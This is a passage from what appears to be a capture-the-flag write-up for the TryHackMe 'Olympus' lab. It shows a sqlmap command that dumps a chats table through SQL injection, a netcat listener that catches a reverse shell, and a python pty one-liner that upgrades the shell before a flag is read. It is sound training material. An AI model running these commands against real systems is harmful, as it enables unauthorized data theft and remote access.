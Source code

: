 Now I just need to figure out what the name changing function is changing the name of my reverse shell too and then I can navigate to it. 

So, thinking back to what we know, we have exploited an SQL database previously, so maybe the chat page is storing information in the SQL database. Looking back at the tables we enumerated before, we can see that there is a chats table in the olympus database. So let's dump it and see what we get:

```bash
sqlmap -u "http://olympus.thm/REDACTED/search.php" --data="search=1337*&submit=" --dbs --random-agent -v 3 --tables -T chats --dump
```
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/blob/pictures/olympus_pics/14.png">
</p>
Bingo! Now we know the name of our file. Let's pop up a netcat listener first
`nc -nvlp 7788`
(port number depends on what you picked for your port in your reverse shell)
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/blob/pictures/olympus_pics/15.png">
</p>
Nice, now we've got a shell.

Let's clean up the shell a little bit with python:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Moving to the /home directory it looks like we have access to zeus and our next flag:
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/blob/pictures/olympus_pics/16.png">
</p>

There's also a note from Prometheus to zeus that as some interesting info in it that _might_ be useful at some point.
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/blob/pictures/olympus_pics/17.png">
</p>

